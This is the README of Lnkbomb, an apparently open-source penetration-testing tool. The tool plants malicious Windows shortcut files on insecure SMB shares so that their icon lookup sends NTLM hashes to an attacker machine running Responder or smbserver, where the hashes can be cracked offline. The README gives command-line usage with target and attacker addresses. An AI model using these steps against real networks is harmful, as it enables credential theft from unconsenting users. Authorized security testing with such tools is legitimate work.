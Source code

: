 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

## Python Usage
Installing Lnkbomb

Note that the project works consistently in Windows. It may have issues in Linux.

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)```

```-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)```

Examples of full commands include:

```python3 lnkbomb.py -t \\192.168.1.1\Share -a 192.168.1.2```

```python3 lnkbomb.py -r randomfilegenerated.recover```

You will need to utilize a tool like Responder or smbserver to capture the NTLM hash.  
```responder -I eth0 -dwf -v```

or

```smbserver.py . . -smb2support```


<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example2.png" />
</p>

## Executable Usage
Download Lnkbomb from the releases link on the right side of the page.  All flags are the same as the Python version, with the exception of using lnkbomb.exe rather than python3 lnkbomb.py.


### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
